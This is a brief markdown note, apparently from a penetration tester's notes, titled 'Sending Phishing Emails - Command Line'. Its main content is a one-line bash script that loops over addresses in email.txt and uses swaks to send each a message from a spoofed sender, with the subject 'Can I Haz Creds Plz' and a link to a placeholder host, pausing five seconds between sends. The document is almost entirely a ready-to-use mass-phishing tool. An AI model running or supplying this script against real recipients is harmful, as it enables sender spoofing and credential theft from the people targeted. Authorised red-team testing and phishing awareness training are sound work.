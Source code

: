 # Sending Phishing Emails - Command Line


## Bash and SWAKS

[URL] (https://ryanstutorials.net/bash-scripting-tutorial/bash-loops.php)

[*] email.txt contains a list of email addresses to phish



```
phishing-script.sh 
#!/bin/sh

while read email; do swaks -to $email -from admin@spoofed-domain.com -header "Subject: Can I Haz Creds Plz" -body "goto http://10.10.10.10/" -server 10.10.100.100; echo "Sleeping 5"; sleep 5; done < email.txt
```